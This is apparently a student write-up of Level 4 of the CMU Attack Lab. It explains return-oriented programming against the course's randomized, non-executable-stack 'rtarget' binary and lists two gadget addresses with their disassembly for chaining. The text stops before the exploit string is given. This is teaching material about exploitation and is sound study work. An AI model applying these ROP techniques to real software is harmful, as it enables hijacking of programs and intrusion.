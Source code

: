-----------------------------------------------
# Level 4:

In level 4 and 5 we will be exploring return oriented programming attack. Since the stack for rtarget is randomized and non-executable, it is impossible to do buffer overflow attack on this executable anymore. Recall that we can still write strings on the stack. Instead of directly inject code on the stack, we can inject addresses of existing code and use `retq` to execute them one by one. This is the idea of return oriented programming and each piece of code is called a `"gadget"`. However, it will complicate things much more for the attackers, since we need find useful pieces of code and make a chain of them. I think a graph from the CMU 15-213 lab recitation slide will best clarify the idea

![Alt Text]({filename}/images/attacklab1.jpg)

The gadget code is 

```
Address 1: mov %rbx, %rax; ret
Address 2: pop %rbx; ret
```

The address2 in the graph points to the old return address. The lowest address is the start of buffer. We can use address 2 to replace the old return address. The execution will pop the next 8 bytes into `%rbx` and return to the code pointed by address 1. In this way we form the chain of code pieces and pop value on stack into registers.

This level asks us to reform the attack in level2. The first gadget we identify is

```
58 90  /* popq %rax */
c3     /* retq      */
```

It appears in the following code piece with address 0x4019ab.

```
00000000004019a7 <addval_219>:
4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
4019ad:   c3                      retq
```

Another gadget we identify is

```
48 89 c7  /* mov %rax, %rdi */
c3        /* retq           */
```

It appears in the following code piece with address 0x4019a2.

```
00000000004019a0 <addval_273>:
4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
4019a6:   c3                      retq
```

Combine these two gadgets, we can form our attack. The exploit string is
